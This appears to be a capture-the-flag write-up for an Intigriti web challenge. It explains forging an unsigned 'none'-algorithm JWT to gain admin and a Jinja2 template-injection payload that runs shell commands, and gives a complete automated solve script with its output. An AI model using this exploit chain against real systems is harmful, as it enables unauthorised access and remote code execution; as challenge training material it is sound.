







# Intigriti's November challenge 1125 by [INTIGRITI](https://x.com/intigriti)

## Description

The solution:

* Should leverage a remote code execution vulnerability on the challenge page.
* Shouldn't be self-XSS or related to MiTM attacks.
* Should require no user interaction.
* Should include:
    * The flag in the format INTIGRITI{.*}
    * The payload(s) used
    * Steps to solve (short description / bullet points)
* Should be reported on the Intigriti platform.

Get started:

**Test your payloads on the [challenge page](https://challenge-1125.intigriti.io/browse) & let's pop that shell!**

## TL;DR
   1. JWT accepts `"none"` algorithm - privilege escalation to `admin` role
   2. Admin profile has **SSTI** in display_name - **RCE**
   3. Flag: `INTIGRITI{019a82cf-ca32-716f-8291-2d0ef30bea32}`

## Analysis 

The target is a **black-box web application** that implements a standard e-commerce platform for aquarium products (fish, food, accessories, etc.).



The relevant endpoints were identified through **file/directory enumeration** performed with [gobuster](https://github.com/OJ/gobuster). 
These are listed below:

```bash
/                     (Status: 200) [Size: 3931]
/admin                (Status: 302) [Size: 199] [--> /login]
/browse               (Status: 200) [Size: 20990]
/cart                 (Status: 200) [Size: 8569]
/login                (Status: 200) [Size: 11006]
/logout               (Status: 302) [Size: 201] [--> /browse]
/register             (Status: 200) [Size: 11046]
/shop                 (Status: 200) [Size: 26251]
```

As expected, the application exposes `/register` and `/login` for user sign-up and authentication.
Additional endpoints support the core e-commerce functionality, including product browsing (`/browse`, `/shop`), cart management (`/cart`), and session handling (`/logout`). 
The `/admin` endpoint redirects unauthenticated users to the login page, suggesting the presence of a protected administrative interface.

After registering an account, the personal profile page reveals that the application uses a **role-based** authorization model. 
Newly created accounts are automatically assigned the default `user` role, confirming that access control is enforced based on predefined roles rather than per-resource permissions.



and in fact trying to access `/admin` dashboard also triggers the following alert:

    Admin access required

meaning the required role is likely set to `admin`.

Additionally, after interacting with the application and placing an order, the returned checkout details appear as follows:



This output strongly suggests that the backend is implemented using a Python-based web framework (e.g. Flask, Django).
The presence of `None` values instead of `null` or empty strings is characteristic of Python's object representation.

## Exploit

### Authorization Bypass 

The user session is managed through the `token` cookie, which contains a **JWT** used by the server to maintain authenticated sessions. 
Inspecting the payload reveals: 

```json
{
    "user_id": 7,
    "username": "test_user",
    "role": "user",
    "exp": 1764069806
}
```

Notably, the user’s authorization role is stored directly inside the JWT token.
The token is signed using **HS256**, which is secure in principle as long as the server relies on a strong, unpredictable secret key.
If the signing key were weak, guessable, or improperly configured, it could be feasible to forge a token and escalate privileges by modifying the `role` field.
However, in this case the secret key does not appear to be weak or guessable.

A more subtle attack vector arises from an improper implementation of the **JWT validation workflow**. 
In some flawed setups, servers incorrectly accept tokens with no signature (i.e. algorithm set to `none` in header block), or fail to enforce algorithm verification. 
If such a misconfiguration is present, it could be possible to bypass authorization entirely by crafting an unsigned token as below:

```json
# header
{
    "alg":"none",
    "typ":"JWT"
}
# payload
{
    "user_id": 7,
    "username": "test_user",
    "role": "admin",
    "exp": 1764069806
}
```

Resulting in JWT:

    eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6InRlc3RfdXNlciIsInJvbGUiOiJhZG1pbiIsImV4cCI6MTc2NDA2OTgwNiwiaWF0IjoxNzYzOTkyNjA5fQ.

Requesting access to the admin dashboard with the new token successfully grants access, confirming the presented attack vector.



### Remote Code Execution (RCE)

The Admin dashboard exposes an endpoint (`/admin/profile`) allowing to modify the display name of the current privileged user.



Recalling the earlier observation that the backend is likely based on Flask, which by defaults uses **Jinja2** as its template engine, the display name update functionality becomes a strong candidate for a [Server Side Template Injection (SSTI)](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-server-side-template-injection-ssti) vulnerability. 
SSTI occurs when user‑controlled input is embedded directly into a server‑side template without proper sanitisation.
When the template is rendered, the injected payload is executed by the template engine itself. 

Jinja2 evaluates expressions enclosed in its template delimiters. 
For example:

    {{ 7*7 }} 

When rendered, this expression outputs "49" inside the final HTML page, demonstrating code execution inside the template context.



The image above confirms the presence of an SSTI vulnerability, which can be leveraged to achieve **Remote Code Execution (RCE)** on the server.
A payload enabling arbitrary command execution looks as follows:

```python
{{ Flask.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('grep -roE "INTIGRITI\\{[^}]+\\}" . 2>/dev/null').read() }}
```

Step-by-step:

1. `Flask.__class__` - access the Flask's class object 
2. `.__init__.__globals__` - access global variables from Flask's `__init__` method
3. `['__builtins__']` - access Python's built-in functions
4. `['__import__']` - get the `__import__()` function, which enables to import modules dynamically
5. `('os')` - import the os module
6. `.popen('<cmd>')` - execute a shell command
7. `.read()` - retrieve command output

The final shell command searches recursively for the flag pattern:

```bash
grep -roE "INTIGRITI\\{[^}]+\\}" . 2>/dev/null
```

1. `grep -roE` - recursively search with extended regex, show only matches
2. `"INTIGRITI\\{[^}]+\\}"` - pattern to find the flag
3. `.` - search current directory
4. `2>/dev/null` - suppress errors



As shown in the previous image, the payloads successfully identifies the flag file `/.aquacommerce/019a82cf.txt` and injects its contents into the rendered template:

    INTIGRITI{019a82cf-ca32-716f-8291-2d0ef30bea32}

## Solve Script

The following Python script automates the complete exploitation chain to RCE on the target server:

* **Authentication Setup** - registers a new user account and logs in to obtain a valid JWT token (or reuses a provided token via `--jwt` flag)
* **Privilege Escalation** - decodes the JWT, modifies the role claim to `admin`, and re-encodes it using the `none` algorithm without a signature
* **Admin Access** - sets the forged JWT as a session cookie and verifies access to the `/admin` dashboard
* **Command Execution** - injects an SSTI payload into the `display_name` parameter at `/admin/profile` to execute arbitrary shell commands specified via the `--cmd` argument
* **Output Extraction** - parses the server response using regex to extract and display the command output

```python
import requests, argparse, jwt, random, re

# collect commands and arguments
parser = argparse.ArgumentParser(description="Run a shell command with arguments")
parser.add_argument(
    "--jwt", help="Authentication and authorization session token"
    )
parser.add_argument(
    "--cmd", help="Command and arguments to run, e.g. --cmds ls -la /tmp"
)

parsed = parser.parse_args()
if not parsed.cmd:
    print("Usage: python3 script.py --cmd <command> [args...]")
    exit(1)

base_url = "https://challenge-1125.intigriti.io"
admin_dashboard_endpoint = "/admin"
admin_profile_endpoint = "/admin/profile"
register_endpoint = "/register"
login_endpoint = "/login"

username = f"user-{random.randint(0,100000)}"
password = f"password-{random.randint(0,100000)}"

jwt_str = parsed.jwt
s = requests.Session()

if not jwt_str:
    print("[*] jwt token not provided: registering and signing in with new account")

    resp = s.post(
        f"{base_url}{register_endpoint}",
        data={"username": username, "password": password},
        allow_redirects=True,
    )

    if resp.status_code != 200:
        print("[-] failed to register new account")
        exit(1)

    print(f"[+] successfully registered new account with username: {username}")

    resp = s.post(
        f"{base_url}{login_endpoint}",
        data={"username": username, "password": password},
        allow_redirects=True,
    )

    if resp.status_code != 200:
        print("[-] failed to sign in with new account")
        exit(1)
    
    print(f"[+] successfully signed in with new account with username: {username}")

    jwt_str = s.cookies["token"]

    print("[*] Forging new session jwt with role set to admin")
    original_token = jwt.decode(jwt_str, options={"verify_signature": False})
    original_token["role"] = "admin"

    jwt_str = jwt.encode(original_token, key="", algorithm="none")
    print(
        f"[+] Successfully forged token: you can just reuse it later to directly access {jwt_str}"
    )

s.cookies.clear()
s.cookies.set("token", jwt_str, domain="challenge-1125.intigriti.io", path="/")

resp = s.get(f"{base_url}{admin_dashboard_endpoint}", allow_redirects=False)
if resp.status_code != 200:
    print("[-] Access to admin dashboard not granted")
    exit(1)
print("[+] Access obtained to admin dashboard")

print(f"[*] Executing command \"{parsed.cmd}\" on server")

ssti_payload = "{{" + f"Flask.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('{parsed.cmd} 2>/dev/null').read()" + "}}"
print(f"[*] Complete SSTI payload: {ssti_payload}")

resp = s.post(f"{base_url}{admin_profile_endpoint}", data={"display_name": ssti_payload})
if resp.status_code != 200:
    print("[-] Failed to send SSTI payload")
    exit(1)

match = re.search(r'Current Display Name.*?<p[^>]*>(.*?)</p>', resp.text, re.DOTALL)
output = match.group(1).strip() if match else "<no output>"
print(f"[+] Command output:\n{output}")
```

challenge solution:

```bash
$ python3 solve.py --cmd 'grep -roE "INTIGRITI\\{[^}]+\\}" .'

[*] jwt token not provided: registering and signing in with new account
[+] successfully registered new account with username: user-66907
[+] successfully signed in with new account with username: user-66907
[*] Forging new session jwt with role set to admin
[+] Successfully forged token: you can just reuse it later to directly access eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyX2lkIjoxMzYsInVzZXJuYW1lIjoidXNlci02NjkwNyIsInJvbGUiOiJhZG1pbiIsImV4cCI6MTc2NDA4MzAxN30.
[+] Access obtained to admin dashboard
[*] Executing command "grep -roE "INTIGRITI\\{[^}]+\\}" ." on server
[*] Complete SSTI payload: {{Flask.__class__.__init__.__globals__['__builtins__']['__import__']('os').popen('grep -roE "INTIGRITI\\{[^}]+\\}" . 2>/dev/null').read()}}
[+] Command output:
./.aquacommerce/019a82cf.txt:INTIGRITI{019a82cf-ca32-716f-8291-2d0ef30bea32}
./templates/public/index.html:INTIGRITI{.*}
```
